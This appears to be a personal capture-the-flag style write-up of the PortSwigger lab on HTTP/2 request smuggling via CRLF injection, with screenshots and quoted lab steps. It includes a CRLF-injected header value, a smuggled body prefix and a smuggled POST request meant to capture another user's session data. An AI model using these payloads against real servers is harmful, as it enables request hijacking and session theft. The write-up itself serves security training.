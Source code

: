 **HTTP/2 request smuggling via CRLF injection**

Our session cookie is tied to our search history
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/29e2adf3-ec1b-4681-b1e2-e03784bf2363)


Removing and refreshing sessions will reset search history so our search is tied to session cookie
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4ae10be1-4f31-4a3a-8b97-82dfbf5bc69f)






To exploit
Add a new header using Response Headers via Inspector  should get a 404 not found 


```
Name 
foo 
Value 
bar\r\n
Transfer-Encoding: chunked
```

From <https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection> 

In the body, attempt to smuggle an arbitrary prefix as follows: 
```
0 

SMUGGLED
```

From <https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection> 

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6efa75ce-56ab-4b29-9d67-679150a44d46)





Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix 

From <https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection> 

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8bbc47ea-2fa6-4ec4-961f-ccf6c71de6a0)


Change the body to the following


```
0

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Content-Length: 800

search=x
```
